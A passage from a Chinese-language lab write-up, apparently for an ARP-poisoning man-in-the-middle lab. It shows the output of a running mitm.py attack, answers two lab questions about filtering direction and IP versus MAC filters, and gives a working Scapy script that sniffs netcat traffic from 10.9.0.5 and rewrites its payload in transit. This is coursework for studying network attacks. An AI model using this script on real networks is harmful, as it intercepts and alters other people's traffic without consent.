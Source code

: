 malicious-server 显示：

```shell
malicious-router-10.9.0.111$ mitm.py
LAUNCHING MITM ATTACK.........
.
Sent 1 packets.
.
Sent 1 packets.
*** b'aaaa\n', length: 5
.
Sent 1 packets.
*** b'Chenyang\n', length: 9
.
Sent 1 packets.
```

可以看到，攻击成功。

> Question 4: In your MITM program, you only need to capture the traffics in one direction. Please indicate which direction, and explain why.

只需要过滤出 victim 到 host 的报文即可，因为需要修改的报文就在这个方向上。

> Question 5: In the MITM program, when you capture the nc traffics from A (10.9.0.5), you can use A’s IP address or MAC address in the filter. One of the choices is not good and is going to create issues, even though both choices may work. Please try both, and use your experiment results to show which choice is the correct one, and please explain your conclusion.

修改 `mitm.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

print("LAUNCHING MITM ATTACK.........")

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'Chenyang', b'AAAAAAAA')

       send(newpkt/newdata)
   else: 
       send(newpkt)

f = 'tcp and src host 10.9.0.5' 
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```
